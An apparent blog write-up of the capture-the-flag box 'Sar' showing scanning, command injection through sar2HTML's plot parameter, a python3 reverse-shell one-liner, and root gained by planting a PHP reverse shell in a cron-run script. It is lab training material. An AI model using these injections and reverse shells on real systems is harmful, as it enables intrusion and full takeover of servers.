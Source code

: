 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the VulnHub box **"Sar"** that exploits sar2HTML via Remote Code Execution (RCE)
<br />

- **Box Host:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 
*Note 1: The IP addresses, URLs, and flags used in this demonstration were specific to the environment at the time of the exploit and will likely be different when another attempt at this box is made.*

*Note 2: There is almost always more than one way to expoit a box (TIMTOWTDI). The demonstration and tools shown here are probably not the only method you can use.*
- - -

### Step 1: Network Scanning
Perform a stealth scan of the entire subnet to identify target machine
```
nmap -sS [ip range]
```

- identify open ports
- open ip address in browser
  * shows default Apache page

- - -

### Step 2: Directory Brute Force
Perform a directory brute force with the tool of your choice
```
gobuster dir -u [url] -w [path to wordlist]
```
- identifies robot.txt
- Download the file with *curl* and inspect
```
curl [url]/robots.txt
```
```
cat robots.txt
```
  - text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server

- - -

### Step 3: Research sar2HTML for vulnerabilities
Research to find **sar2HTML** exploit
- Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
- Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
- Example:

```
http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd
```

- - - 

### Step 4: Setup a Reverse Shell
Run a basic Python command to see if it is installed

```
python3 --help
```

- The output provided shows this is a success and python3 is installed

Setup a netcat listener in your terminal:
```
nc -lvp 1234
```

- Run a python3 script to connect to a reverse shell:

```
python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

- Successfully connected:

- Setup a stable shell (optional):

```
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
```

- **user flag was found at:** /home/love/Desktop/user.txt

- - -

### step 5 (final): Gain Root
- Search for weak permissions
  - Find a **cron job** is being run as a root user

```
cat /etc/crontab
```

- Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**

*Note: This cronjob is running every 5 minutes*

- Navigate to /var/www/html/ and see what is there

```
cat /var/www/html
ls 
```

- Run cat on finally.sh and see it is calling write.sh

```
cat finally.sh
cat write.sh
```

- write.sh is creating a folder in temp directory
- the command **ls -l** shows we can edit write.sh

```
ls -l
```

- Add a php reverse connection command into write.sh with **echo**

```
echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```

*Note: echo requires a \ in front of a $ and a " for the file to accept it*

- Setup a netcat listner

```
nc -lvp 4444
```

- Wait about 5 mins for cronjob to run again and see the shell open up on the new netcat listner
- **root flag was found at:** /root/root.txt

- - -
<!---
### Internally Linked Images (not working):
![Test](/assets/_stegoview/02-offsec/howto-fork.png) <br>
![Test](_stegoview/02-offsec/howto-fork.png) <br>
![Test](howto-fork.png) <br>
<img src="_stegoview/02-offsec/howto-fork.png" width="400"> <br>
- - -
### Externally Linked Image:
![Link an image](https://raw.githubusercontent.com/DigitalHammer/DigitalHammer.github.io/master/assets/_stegoview/02-offsec/howto-fork.PNG "Yosemite with me wife")
-->


